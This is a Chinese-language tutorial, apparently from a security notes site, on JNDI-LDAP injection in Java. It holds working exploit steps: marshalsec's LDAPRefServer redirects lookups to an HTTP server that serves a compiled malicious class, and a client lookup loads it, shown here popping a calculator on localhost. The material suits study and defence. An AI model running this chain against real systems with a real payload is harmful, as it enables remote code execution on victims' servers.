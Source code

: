 ## JNDI-LDAP

`LDAP`服务中`lookup`方法中指定的远程地址使用的是`LDAP`协议，由攻击者控制`LDAP`服务端返回一个恶意`jndi Reference`对象，并且`LDAP`服务的`Reference`远程加载`Factory`类并不是使用`RMI Class Loader`机制，因此不受`trustURLCodebase`限制。

ldap的实现代码较多，这里使用工具`marshalsec`来启动LDAP服务

### marshalsec下载及使用

下载地址：https://github.com/mbechler/marshalsec

maven打包为jar包：`mvn clean package -DskipTests`

项目会多出一个target目录，进入可以看到生成的jar包

开启ldap服务：`java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#calc 8099`

作用是将LDAP查询请求重定向到`http://127.0.0.1:8000/#calc`，calc为恶意代码编译得到的class文件

`python -m http.server 8000`下放calc.class

**注意：calc.java不要包含包名，否则在远程调用的时候会因为类名不正确而报错**

客户端：

```java
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        String url = "ldap://127.0.0.1:8099/aaa";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}
```

查询ldap的地址为：ldap://127.0.0.1:8099/aaa，后面的aaa是随便写的用于DN查找的字符

![image-20230122151413791](../.gitbook/assets/image-20230122151413791.png)

弹出计算器

------

**Analysis**

`LdapCtx#c_lookup` => decodeObject  ，解析得到Reference对象
